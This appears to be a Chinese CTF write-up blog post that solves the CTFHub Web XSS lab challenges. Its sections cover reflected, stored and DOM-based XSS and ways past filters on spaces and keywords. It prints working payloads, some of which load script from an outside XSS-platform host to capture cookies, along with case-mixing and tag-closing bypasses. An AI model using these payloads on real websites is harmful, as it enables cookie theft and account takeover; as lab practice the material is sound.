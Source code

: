 ```yaml
---
layout: post
title: CTFHub Web XSS
subtitle: CTFHub Web XSS
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. XSS

### 1.1. 反射型

![image](https://img.ghostliner.top/vPYvXZ.png)

```html
<script>
  alert(123);
</script>
#成功
```

注册 XSS 平台，填入 `<sCRiPt sRC=//xs.pe/s2x></sCrIpT>` 复制地址栏地址 sendURLtoBot

查看访问记录的 cookie

![image](https://img.ghostliner.top/gCTZA2.png)

### 1.2. 存储型

```html
<script>alert(123)</script> #成功
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/3bfA5q.png)

### 1.3. DOM 反射

```html
<script>
  alert(123);
</script>
#失败，发现是与原始script闭合导致
```

![image](https://img.ghostliner.top/MzoYuf.png)![image](https://img.ghostliner.top/bXxHxO.png)

```html
#补全，成功
</script><script>alert(123)</script>
</script><sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9aszLX.png)

### 1.4. DOM 跳转

查看页面代码，可知需要构造 `?jumpto=xxx`

![image](https://img.ghostliner.top/JQjr1V.png)

```uri
http://challenge-e727a1e5d8b21242.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(123)
```

成功

### 1.5. 过滤空格

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9LDH67.png)

```html
<sCRiPt/SrC=//xs.pe/s2x> #成功
```

![image](https://img.ghostliner.top/tzZv2B.png)

### 1.6. 过滤关键词

测试过滤 ` script``img``onerror `

![image](https://img.ghostliner.top/8Rpv7u.png)

大写绕过

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/o8kMjK.png)
